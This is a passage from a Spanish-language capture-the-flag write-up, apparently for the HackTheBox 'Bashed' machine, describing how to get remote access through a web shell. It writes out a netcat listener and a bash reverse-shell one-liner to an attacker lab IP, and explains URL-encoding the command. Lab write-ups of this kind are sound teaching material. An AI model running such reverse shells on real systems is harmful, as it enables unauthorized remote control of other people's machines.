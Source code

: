 A cualquiera de esos archivos que le demos click, nos va a mandar a una **bash interactiva** desde la web, pero como es muy lenta vamos a conectarnos de manera remota.


<br>
<br>
<hr>
<div style="position: relative;">
 <h1 id="Explotacion" style="text-align:center;">Explotación de Vulnerabilidades</h1>
  <button style="position:absolute; left:80%; top:3%; background-color:#444444; border-radius:10px; border:none; padding:4px;6px; font-size:0.80rem;">
   <a href="#Indice">Volver al Índice</a>
  </button>
</div>
<br>


<h2 id="RevShells">Ganando Acceso a la Máquina Víctima con Distintas Reverse Shell</h2>

Podemos hacer 2 cosas para tratar de conectarnos de manera remota, una sería usando un script en **bash** y la otra cargando una **Reverse Shell** en la carpeta **uploads** de la página.

<br>

<h3 id="Bash">Utilizando Bash para Conectarnos de Manera Remota</h3>

Bueno, hagamoslo por pasos:
* Alzamos una **netcat**:
```bash
nc -nvlp 443                              
listening on [any] 443 ...
```

* Vamos a usar el siguiente one-liner que es una **Reverse Shell**:
```bash
bash -c "bash -i >& /dev/tcp/10.10.14.16/443 0>&1"
```
PERO, vamos a **url encodearlo** cambiando los **ampersands (&)** por **%26**. Una vez que lo hagas, ejecutalo y ya debería estar:

![](/assets/images/htb-writeup-bashed/Captura6.png)
